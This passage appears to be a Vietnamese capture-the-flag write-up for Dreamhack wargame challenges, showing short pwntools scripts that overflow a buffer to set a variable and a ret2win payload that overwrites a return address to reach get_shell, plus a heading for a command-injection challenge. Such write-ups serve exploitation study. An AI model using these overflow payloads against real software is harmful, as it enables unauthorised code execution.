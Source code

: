 - có bof nên ta sẽ ghi đè v5 = 1

![image](https://hackmd.io/_uploads/B1hshB_m1e.png)


vậy cần ghi đè cho biến v5 = 1 → nó sẽ in flag ra 

![image](https://hackmd.io/_uploads/rJ923B_m1g.png)

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall',checksec=False)

p = remote('host3.dreamhack.games', 22148)

p.sendafter(b'Your Input: ',b'a'*80+p64(1))

p.interactive()
```


------


5 . Return Address Overwrite
--------

chỉ là 1 bài ret2win đơn giản 

```

#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./rao',checksec=False)
p = process()
p = remote('host3.dreamhack.games', 20393)
payload = b'a'*0x30 +b'a'*0x8
payload += p64(exe.sym.get_shell)
p.sendlineafter(b'Input: ',payload)

p.interactive()
````

------------


6 . cmd_center
-------

BOF + command injection

![image](https://hackmd.io/_uploads/rk5EaSOQyx.png)
